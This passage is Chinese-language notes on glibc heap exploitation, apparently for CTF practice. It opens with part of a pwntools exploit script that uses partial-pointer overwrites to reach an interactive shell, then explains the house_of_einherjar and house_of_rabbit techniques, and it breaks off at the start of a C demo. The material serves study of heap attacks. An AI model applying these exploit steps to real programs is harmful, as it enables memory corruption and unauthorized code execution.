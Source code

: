 ```python
edit(1, "\xcd\x4a")

create(0x68,0)
create(0x68,0)
create(0x68,0)

# free(15)
# edit(15, p64(0x00))

create(0xc8, 1)
create(0xc8, 1)
create(0x18, 2)
create(0xc8, 3)
create(0xc8, 4)

free(1)
edit(1, "a" * 8 + "\xe0\x4a")
create(0xc8, 1)

edit(0, "a" * 0x13 + "\x4f\x39\x5b")

create(0xc8, 7)
try:
	resp = r.recv(4, timeout=6)
	r.interactive()
except:
	r.close()
```
## house_of_einherjar
1. off by one的一种，修改top chunk的 prev_size和prev_inuse导致向前合并任意写。
2. 修改下一个正在使用中chunk的prev_inuse，同时修改prev_size 为目标堆块，释放后指令unlink(target chunk)然后加入bin中。
    - 对重叠
    - 任意地址写(需要提前绕过unlink双向检查)


## house_of_rabbit
- 可以修改fastbin的fd指针或size.
- 可以触发malloc_consolidate.
- 可以分配任意大小的堆块并且释放.
- 
第一种攻击方式:修改size造成overlap chunk,然后触发malloc_consolidate使fastbin清空,从而分配出重叠的堆块.
第二种攻击方式:修改fd指向一个fake chunk,然后触发malloc consolidate使fake chunk成为一个合法的chunk.
攻击流程.
- 当size超过某特定阈值时,malloc会使用mmap来分配堆块,但同时会改变该阈值.通过连续malloc并free两次超大chunk,会扩大top chunk size.
- 再申请一个fast chunk和一个small chunk,保证small chunk紧邻top chunk.
- 在可控内存处伪造两个chunk.一个size为0x11,绕过检查.一个size为0xfffffffffffffff1,覆盖任意地址.
- 再利用其他漏洞将0xfffffffffffffff1大小的fake chunk链接到fastbin链表,free触发malloc_consolidate,用于对fastbin合并并放到unsorted bin中.
- 再申请一个超大chunk将0xfffffffffffffff1大小的fake chunk链接到largebin,最后申请任意长度的地址,使堆块地址上溢到当前堆地址的低地址位置,从而可以分配到任意地址,达到内存任意写的目的.
house_of_rabbit可以绕过堆块的地址随机化保护达到任意地址分配的效果,下面是攻击demo.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char target[0x30] = "Hello, World!";
unsigned long gbuf[8] = {0};

int main(void){
    void *p, *fast, *small, *fake;
    char *victim;
```